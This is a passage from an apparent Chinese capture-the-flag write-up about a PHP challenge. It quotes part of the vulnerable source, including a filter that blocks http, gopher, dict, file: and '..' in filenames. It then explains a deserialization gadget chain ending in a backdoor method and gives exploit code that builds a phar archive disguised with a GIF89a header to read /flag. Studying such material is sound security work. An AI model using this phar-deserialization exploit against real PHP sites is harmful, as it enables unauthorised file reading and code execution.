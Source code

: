 ```php
            if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
                die("illegal fname XD");
            }
        }
    }
    class Test{
        public $str;
        public function __construct(){
            $this->str="It's works";
        }
        # step 1
        public function __destruct()
        {
            echo $this->str;
        }
    }
?>
```



#### 反序列化

审计一下源码发现存在反序列化漏洞, 攻击链:

> `$Test->__destruct()` => `$Upload->__toString()` => `$Show->__get()` => `$Show->__call()` => `$Show->backdoor()`

注:

 - `__destruct()`: 对象调用完毕销毁时自动触发;
 - `__toString()`: 将对象转化为字符串时触发;
 - `__get()`: 调用不存在 (无法访问) 的属性时触发;
 - `__call()`: 调用无法访问的方法时触发;

exp:

```php
<?php 

    class Upload {
        public $f; #文件内容
        public $fname; #文件名
        public $fsize; #文件大小
        
    }
    class Show{
        public $source;
        
    }
    class Test{
        public $str;
        
    }


$a = new Test();
$a->str = new Upload();
$a->str->fname = new Show('exp');
$a->str->fsize = '/flag';

$phar =new Phar("exp.phar"); 
$phar->startBuffering();
$phar->setStub("GIF89a"."XXX<?php XXX __HALT_COMPILER(); ?>"); 

$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
```